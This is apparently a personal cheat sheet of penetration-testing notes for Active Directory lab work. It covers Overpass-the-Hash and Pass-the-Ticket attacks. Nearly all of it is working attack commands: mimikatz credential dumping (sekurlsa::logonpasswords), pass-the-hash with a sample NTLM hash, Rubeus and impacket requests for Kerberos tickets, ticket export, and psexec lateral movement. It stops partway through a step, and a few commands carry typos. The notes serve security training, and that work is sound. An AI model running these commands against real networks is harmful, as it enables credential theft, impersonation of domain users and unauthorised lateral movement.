 ```shell
# resources
# https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/
```
# ***Overpass the Hash (DU)***
***Use NTLM hash to get TGT so we can access services that use Kerberos***
## impacket
```shell
# 1 GET TGT using password or hash and save it
impacket-getTGT.py -dc-ip `dc` jurassic.park/velociraptorr -hashes :HASH
export KRB5CCNAME=./velociraptor.ccache

# 2 
impacket-psexec jurassic.park/velociraptor@labwws02.jurassic.park -k -no-pass
```
## mimikatz
```shell
# 1 GET target user's hash
privilege::debug
token::elevate
sekurlsa::logonpasswords

# 2 USE pth to spawn PS in context of jen
sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell

# 3 FROM SPAWNED PS, obtain the TGT using a program that will use authentication
net user /domain
ls \\<DC>\sysvol

# 4 View the ticket (krbtgt server one is the TGT)
klist

# 5 Check success using a program such as PsExec
.\PsExece.exe \\files04 cmd


# b) Rubeus
.\Rubeus.exe asktgt /domain:[domain] /user:[user] /rc4:[hash] /ptt
```
# ***Pass-The-Ticket***
***Impersonate w/ TGS OR Pass TGT to obtain TGS***
## impacket
```shell
# CONVERT Ticket first if needed then export as below
export KRB5CCNAME=ticket.ccache
impacket-psexec jurassic.park/velociraptor@labwws02.jurassic.park -k -no-pass
```
## mimikatz / rubeus
```shell
# a) mimikatz
#
# NO ACCESS as some Domain User initially (jen in this example)
ls \\web04\backup

# 1 OBATAIN dave's TGS (dave has a TGS for this service)
privilege::debug
token::elevate
sekurlsa::tickets /export
```